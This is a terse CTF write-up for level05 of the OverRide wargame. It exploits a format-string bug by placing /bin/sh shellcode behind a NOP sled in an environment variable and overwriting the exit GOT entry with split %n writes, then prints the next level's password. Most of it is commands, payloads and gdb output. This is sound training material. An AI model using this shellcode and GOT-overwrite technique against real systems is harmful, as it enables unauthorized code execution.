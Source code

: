 
fuzzing phase

```
level05@OverRide:~$ ./level05
ssss
ssss

obiously some format string here

level05@OverRide:~$ ./level05
%p %p %p

level05@OverRide:~$ (python -c 'print "AAAA" + " %p " * 10') | ./level05
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd6bf  0xffffd6be  (nil)  0xffffffff  0xffffd744  0xf7fdb000  0x61616161

level05@OverRide:~$ (python -c 'print "AAAA" + " %10$p "') | ./level05
aaaa 0x61616161
```

lets jump into jdb 

```
   0x08048507 <main+195>:	call   0x8048340 <printf@plt>
   0x0804850c <main+200>:	movl   $0x0,(%esp)
   0x08048513 <main+207>:	call   0x8048370 <exit@plt>
```   
   its GOT obviously

```
call   0x8048370 <exit@plt>

(gdb) x 0x8048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```

```
export shellcode=$(python -c 'print "\x90" * 300 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

```
x/600wx $esp
0xffffde60:	0x90909090	0x90909090	0x90909090	0x90909090


(gdb) p 0x80497e0  = 134518752
(gdb) p 0xffffde60 - 4 = 4294958684

```

```
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "%4294958684d%10$n"' ; cat) | ./level05 > /dev/null
id 1>&2
```

mmm smthg wrong

lets debug the assembly

```

=> 0x8048466 <main+34>:	movl   $0x64,0x4(%esp)
   0x804846e <main+42>:	lea    0x28(%esp),%eax
   0x8048472 <main+46>:	mov    %eax,(%esp)
   0x8048475 <main+49>:	call   0x8048350 <fgets@plt>
   
buffer of size 100 stored at esp + 0x28
```
```
0x08048495 <+81>:	cmp    $0x40,%al

0x080484a7 <+99>:	cmp    $0x5a,%al
```
The code checks if the character is less than or equal to 0x40, which corresponds to '@' in ASCII,
and if it is greater than 0x5a, which corresponds to 'Z' in ASCII. If the character is within this range,
the code jumps to the main+135 address, which indicates that the input is invalid.

 0x080484cb <+135>:	addl   $0x1,0x8c(%esp)

```
'A' 0x41 65    XOR     32

01000001 = 65 = 'A'
XOR
00100000 = 32

01100001 = 97 = 'a'

python3 -c "print(65 ^ 32)"
97
```

```
level05@OverRide:~$ (python -c 'print "AAAA" + "BBBB" " %10$p %11$p"') | ./level05
aaaabbbb 0x61616161 0x62626262
```
the addresses in the stack are as follows
```
(gdb) x/900 $esp
0xffffd3c0
0xffffd3d0
0xffffd3e0
```
p 0xffffd3c0 = 4294955968

too long values, which results to negative value in signed 2's complement (-11328)

so we need to split the value if we want to properly override exit.GOT 

```
shellAddr = 0xMsbLsb
 
Lsb - 4 - 4 (already printed 2 addr)
Msb - Lsb = 0xffff - Lsb

exmpl:

0xffffdc59

(gdb) p 0xdc59 - 8 = 56401
(gdb) p 0xffff - 0xdc59 = 9126
```

```
(gdb) x/900 $esp

0xffffdd00:	0x90909090	0x90909090	0x90909090	0x90909090

(gdb) p 0xdd00 - 8        = 56568
(gdb) p 0xffff - 0xdd00   = 8959


level05@OverRide:~$ (python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56568d%10$n%8959d%11$n"' ; cat) | ./level05 > /dev/null
whoami 1>&2
level06
pwd 1>&2
/home/users/level05
cat /home/users/level06/.pass 1>&2
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```

```
define hook-stop
   x/10i $eip
   echo "\n--------------------\n"
   x/x 0x80497e0

r

=> 0x8048507 <main+195>:	call   0x8048340 <printf@plt>
   0x804850c <main+200>:	movl   $0x0,(%esp)
   0x8048513 <main+207>:	call   0x8048370 <exit@plt>
--------------------
"0x80497e0 <exit@got.plt>:	0x08048376

ni

--------------------
"0x80497e0 <exit@got.plt>:	0xffffdd00

```


```

#shell = 0xffffdea0

import struct

exit_addr = struct.pack ("I", 0x80497e0)
exit_addr += struct.pack ("I", 0x80497e0 + 2)
print exit_addr  + "%56984d%10$n" + "%8543d%11$n"

python /tmp/pyload.py > /tmp/pyload
level05@OverRide:~$ cat /tmp/pyload
%56984d%10$n%8543d%11$n
level05@OverRide:~$ (cat /tmp/pyload; cat) | ./level05 > /dev/null
```



```
shell = 0xabcdef90

addr = 0x12345678
new_msb = shell & 0xffff
new_lsb = shell >> 16

print("shell = " + hex(shell))
print("addr  = " + hex(addr))

print("---------------\n")

masked_addr = addr & 0xffff
new_addr = masked_addr | (new_lsb << 16)

print("masked = " + hex(masked_addr))
print("new    = " + hex(new_addr))

print("----------------\n")

masked_addr = new_addr & 0xFFFF0000
new_addr = masked_addr | new_msb

print("masked = " + hex(masked_addr))
print("new    = " + hex(new_addr))
```






